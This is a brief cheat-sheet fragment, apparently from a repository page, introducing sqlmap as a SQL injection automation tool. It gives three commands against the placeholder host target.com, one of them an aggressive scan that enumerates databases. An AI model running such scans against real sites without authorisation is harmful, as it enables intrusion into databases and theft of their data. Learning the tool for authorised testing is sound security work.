 This is a tool which automates SQL injection tasks

```bash
sqlmap -u "http://target.com/page.php?id=1" 
```

POST request :
```bash
sqlmap -u "http://target.com/login.php" --data="username=admin&password=1234"
```

```bash
sqlmap -u "http://target.com/page.php?id=1" --random-agent --batch --level=5 --risk=3 --dbs
```


